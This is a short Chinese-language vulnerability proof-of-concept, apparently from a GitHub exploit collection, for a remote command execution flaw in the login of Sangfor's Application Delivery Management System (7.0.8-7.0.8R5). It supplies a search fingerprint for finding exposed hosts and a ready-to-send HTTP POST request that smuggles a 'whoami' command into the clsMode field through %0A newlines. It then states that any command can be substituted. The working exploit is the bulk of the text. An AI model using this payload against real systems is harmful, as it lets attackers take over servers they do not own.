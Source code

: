 0x00 漏洞描述

深信服应用交付管理系统login存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限，执行任意命令


![图片](https://github.com/Londly01/poc-hub/assets/118274389/916aedb1-dbe4-46d4-a960-9f51c7ced7f2)


0x01 漏洞发布时间: 2023年8月9日

0x02 漏洞影响

深信服 应用交付管理系统 7.0.8-7.0.8R5

0x03 网络测绘

fid="iaytNA57019/kADk8Nev7g=="

0x04 漏洞复现

```
POST /rep/login HTTP/1.1
Host: xxxxxxxxxxx
Cookie: UEDC_LOGIN_POLICY_VALUE=checked
Content-Length: 124
Sec-Ch-Ua: "Not/A)Brand";v="99", "Google Chrome";v="115", "Chromium";v="115"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://1.1.1.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://1.1.1.1:85/rep/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

clsMode=cls_mode_login%0Awhoami%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123

```
通过更改%0A中间的参数执行任意命令
